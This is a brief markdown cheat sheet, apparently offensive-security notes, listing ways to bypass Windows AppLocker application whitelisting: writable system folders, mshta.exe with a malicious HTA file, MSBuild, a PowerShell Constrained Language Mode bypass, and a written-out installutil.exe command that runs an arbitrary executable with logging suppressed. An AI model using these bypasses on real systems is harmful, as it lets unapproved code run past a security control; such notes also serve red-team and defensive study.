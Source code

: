 # Applocker Whitelisting Bypass

#### 1) use C:\Windows\Tasks and C:\Windows\Temp

#### 2) mshta.exe MALICIOUS.hta

#### 3) MSBuild

#### 4) Powershell CLM bypass

    installutil.exe /logfile= /LogToConsole=false /U c:\runme.exe

## Reminder that you still have low access on the machine! Just without the applocker restrictions ofc ! :)
